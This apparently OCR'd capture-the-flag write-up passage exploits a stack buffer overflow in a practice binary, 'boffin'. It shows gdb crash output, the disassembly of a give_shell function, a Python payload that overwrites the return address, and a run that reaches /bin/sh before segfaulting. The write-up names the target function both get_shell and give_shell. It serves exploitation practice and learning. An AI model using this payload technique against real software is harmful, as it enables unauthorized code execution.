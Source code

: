 ```

15
Program received signal SIGSEGV, Segmentation fault.
0x414141414141

16
Program received signal SIGSEGV, Segmentation fault.
0x40071a
```
Can see that `RIP` is completely overwritten at n = 14
31 + 14 = 45,

If I can overwrite it with the address of `get_shell`, then that function will be called.
The address is 5 bytes long, meaning so I'll need 40 chars worth of padding

Here's where `give_shell` is in memory:
```
Dump of assembler code for function give_shell:
   0x000000000040069d <+0>:     push   %rbp
   0x000000000040069e <+1>:     mov    %rsp,%rbp
   0x00000000004006a1 <+4>:     mov    $0x4007a4,%edi
   0x00000000004006a6 <+9>:     mov    $0x0,%eax
   0x00000000004006ab <+14>:    call   0x400550 <system@plt>
   0x00000000004006b0 <+19>:    pop    %rbp
   0x00000000004006b1 <+20>:    ret
```

To add the address to the payload, I need to send the bytes in reverse order.
```python
def buildPayload():
	base = b"".join([struct.pack("B", 0x41) for i in range(0,40)])
	data = b"".join([struct.pack("B", 0x9d), struct.pack("B", 0x06), struct.pack("B", 0x40), struct.pack("B", 0x00), struct.pack("B", 0x00)])
	return base + data
```

Sending payload to local instance:
```python
def getShell(p):
	payload = buildPayload()
	p.recvuntil("Hey! What's your name?")
	p.sendline(payload)
	p.interactive()
def pwnGDB():
	# Start gdb session
	p =  process('/bin/bash')
	p.sendline('gdb ./boffin -q')
	p.sendline("r")
	getShell(p)
```

Results in a segfault:
```
┌──(kali㉿kali)-[~/Desktop/4-Week]
└─$ python3 Boffin_Pwn.py
[*] Switching to interactive mode
Hi, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x9d\x06@
Program received signal SIGSEGV, Segmentation fault.
0x00007ffff7e17603 in do_system (line=0x4007a4 "/bin/sh")
    at ../sysdeps/posix/system.c:148
148    ../sysdeps/posix/system.c: No such file or directory.
```
However, we can see that this segmentation error is at `/bin/sh`, meaning we did successfully call `give_shell` and it tried to give us one

